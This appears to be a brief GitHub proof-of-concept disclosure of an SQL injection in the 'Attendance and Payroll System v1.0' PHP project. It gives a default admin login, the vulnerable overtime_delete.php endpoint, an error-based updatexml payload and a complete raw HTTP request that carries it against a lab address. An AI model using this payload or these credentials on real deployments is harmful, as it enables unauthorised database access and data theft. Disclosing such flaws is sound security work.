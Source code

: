# Attendance and Payroll System v1.0 - SQL injection

username:nurhodelta password:password ----> {ip}apsystem/admin/index.php

Supplier： https://www.sourcecodester.com/php/12268/attendance-and-payroll-system-using-php.html

\admin\overtime_delete.php has SQL injection

Payload: id=5' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&delete=

SQL injection because id can be closed

![image](https://user-images.githubusercontent.com/54017627/159228775-f1ec492f-f537-4832-8e9d-0f411cccd200.png)

```sql
POST /apsystem/admin/overtime_delete.php HTTP/1.1
Host: 192.168.1.17
Content-Length: 73
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.17
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://192.168.1.17/apsystem/admin/overtime.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=2nud4pa7qt6oo5odl3120a4bta
Connection: close

id=5' and updatexml(1,concat(0x7e,(select database()),0x7e),0)--+&delete=
```

![image](https://user-images.githubusercontent.com/54017627/159228895-f2f29871-79eb-4dfd-864d-52c0283258c3.png)

![image](https://user-images.githubusercontent.com/54017627/159228914-f1ab878f-b185-4411-af65-3629eacb1917.png)
